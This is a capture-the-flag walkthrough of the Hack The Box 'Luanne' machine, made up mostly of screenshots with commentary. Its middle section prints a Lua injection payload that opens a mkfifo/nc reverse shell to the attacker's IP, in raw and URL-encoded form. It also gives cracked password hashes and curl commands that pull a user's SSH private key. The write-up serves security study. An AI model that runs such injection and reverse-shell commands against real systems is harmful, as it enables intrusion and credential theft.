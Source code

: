 ```yaml
---
layout: page
title: Luanne
description: Write-up
dropdown: HTB-BOXES
priority: 1
---
```

# Luanne Walkthrough
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68dcaeda-cf61-48b1-81df-3b50af1e1e63/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T212031Z&X-Amz-Expires=86400&X-Amz-Signature=dbcd74a0e70df071916f3b5829e6908e7810a2b0a601ab5e8b73336fbfb8017b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/64c7e259-9168-4229-9667-2595a8ddbe3a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T195051Z&X-Amz-Expires=86400&X-Amz-Signature=6e899b602e9231418485f298e07fb90c8d05390be5262e8817c037c988b418cd&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


### Let's start with the Web Page:

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4d331ad0-6ca7-4f1d-909f-84f926e8d56e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220747Z&X-Amz-Expires=86400&X-Amz-Signature=65b805dc8bf10b8ecc4d26e664344b6d9bee398bcc14798209258e3103428039&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3a02ba02-588c-4963-9dc7-24ea4943787e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220955Z&X-Amz-Expires=86400&X-Amz-Signature=cc099e62053f11be44e021d0cb5e4789522f0935ca106604f5f0521d40de01a3&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### I used ffuf for fuzzing luanne.htb/


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f6b5b7fb-096e-4093-8e4e-c60e9995e58e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221725Z&X-Amz-Expires=86400&X-Amz-Signature=8fc77eddae8de86bd36a0cf5c68b9a9fabfd4662dd30c88f17b2a0a8bed8094f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



* We got robots.txt

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6ab319aa-1ec4-4590-b79a-3a1c662e4592/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221840Z&X-Amz-Expires=86400&X-Amz-Signature=d5b1629ee14b8a6800c3adbee52baa8619ee207b69bb3ef4a574e9163fb2d6b0&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4cc16698-a933-4e1f-b8fe-93d90e352b09/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T222958Z&X-Amz-Expires=86400&X-Amz-Signature=671502ab015208afeb98b1e8115c50c54a76c79eac2badc5047ca95c6a2786ca&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/30d8f697-acbb-4e76-a9d3-f180eef28422/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223205Z&X-Amz-Expires=86400&X-Amz-Signature=54f272392356033508eb550b63db92bf354720ed6607b1ca1a05839ebf2b4a08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### Use city=list to list available cities 

*okay, Thanks*


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/97f1a229-81a0-4fc5-a5bd-a1563ef5d03a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223414Z&X-Amz-Expires=86400&X-Amz-Signature=1a4dc9c7f0f8694c1e8fa955301877b599fc83c7420080adeb386ce8f37a0d03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d25b6f67-0786-4f9a-a430-2037802b6cb9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T224449Z&X-Amz-Expires=86400&X-Amz-Signature=9ccb6b1fb1178961d4a5f681732eb4bd5fdec19c0ecd92531045733a69b1f4df&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b64544ff-c962-4820-89c7-87d16bae551d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T233833Z&X-Amz-Expires=86400&X-Amz-Signature=1c932c8959ac3359021f96e9a027d6478eb9e2d448f981ecb0da2266efb56c24&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/98100502-7a21-44e9-a307-71009920d1f5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000029Z&X-Amz-Expires=86400&X-Amz-Signature=ba06437302ef5bb61103ad4745f4a1173b7f3ef368623bb14d2824626fb64d01&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**we got iamthebest**

## Enumerate luanne.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/81c7b723-f8c6-4c67-815a-cc6fb50b694e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000501Z&X-Amz-Expires=86400&X-Amz-Signature=dc8d5eac59120d22d8e2ce98cbbbe5c7972cea09e34d87d602ce2f98b9405707&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * We got user r.michaels 

**Let's check the netstate** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68cbe7e3-435c-4071-b0c2-362c4e020e4e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000734Z&X-Amz-Expires=86400&X-Amz-Signature=a44ed310321fbe5aa26f79c418f10a2cba6f2bdd49b10dfde7c7b76104cbdf03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * There is a localhost web page on port 3000 and 3001 

**Let's Dig more**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/62151e89-8b1e-4410-81d0-576865571022/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000947Z&X-Amz-Expires=86400&X-Amz-Signature=0feb6997691ee9f8b4fb6bc2d50bde74b6fbf1879abab801c6ce75945912f2c4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/274bfca7-5dc2-4e22-829e-fc635a640a9f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T001005Z&X-Amz-Expires=86400&X-Amz-Signature=8eda012b3fa2de684229b9ed534e0dfe70be7b67d8d148d8b4beef47c8da1731&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**I got hinted to dig more in port 3001 and get id_rsa**

**So let's Try to curl the local web server in port 3001**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/577680ad-0d62-4049-8807-06949f11b2bf/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T094912Z&X-Amz-Expires=86400&X-Amz-Signature=dc3af5a2ddd7f2616085ca6eb5b9a49d3f72286e038a5771c55efc9c4413f6a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/cc2830e1-d413-45e5-b2e4-b08f25dc5971/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T104638Z&X-Amz-Expires=86400&X-Amz-Signature=24fa5d4156e6580b973a080a29bc407a275802c7282bbf4eb5fbe67b4de71d23&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/c4319954-c801-4fd4-be32-ae661b5395f9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T104907Z&X-Amz-Expires=86400&X-Amz-Signature=8ebcb5b89974c9bf25f1d1e439ae070680d0272aa7ca73600ed2902daf21e06a&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


## SSH connecting.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/39a3ea0a-a456-4cbc-85bb-f2a108f54ce1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T110437Z&X-Amz-Expires=86400&X-Amz-Signature=30bda8b984028e7110f3f303ac6734f2b6c3f81c73e493926d29435fc55ebee1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d4ce4df0-4220-4d4e-9ecd-9d80f5d439f9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T111708Z&X-Amz-Expires=86400&X-Amz-Signature=092e4423b90439f98569273f708bf73c7f3326654563b7268cdc2928b410450f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/df9e3cd8-2f09-4ac2-9d4a-de75132cf62f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T111924Z&X-Amz-Expires=86400&X-Amz-Signature=adcbf5ffb0181c3da4216b859d3e234763e346959dfbe9e3ead20d0d453149e7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * we access to /webapi but no thing useful.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7e6784ef-44d6-4f6d-966b-fa043e7f028b/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T112012Z&X-Amz-Expires=86400&X-Amz-Signature=234487128c019cc5bca0afed5d4355c31bc8a33b9ac6c36d8264b785be79deb4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **we access to /www and got another webapi_user**
 
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0e656a1a-424f-45c4-99e4-1ee73d0a2379/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T112121Z&X-Amz-Expires=86400&X-Amz-Signature=0979a19503435017e80de8bdb182cc4d32ff1aa4fb4a9df728d0cb02ae557d63&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/18e18677-6eb5-4bf0-8f8f-e47caec1a68a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T114025Z&X-Amz-Expires=86400&X-Amz-Signature=4fb1cad83fb9853f3930e6cbccf4411e5eb4c2c4d2b058b6cc7abcba4345120f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

##### Command Not Found!!!

> **we had to find alternatives for sudo su in netBSD operating system**

* I found doas su, And tha's ok.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9369b1ff-362e-42f6-920a-7a3eb88b5504/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T114352Z&X-Amz-Expires=86400&X-Amz-Signature=1daca75835fcf2777e7d4cdb8368c74cba25ed9acaedeab2f328f86131c3de40&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

# RooTed
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()

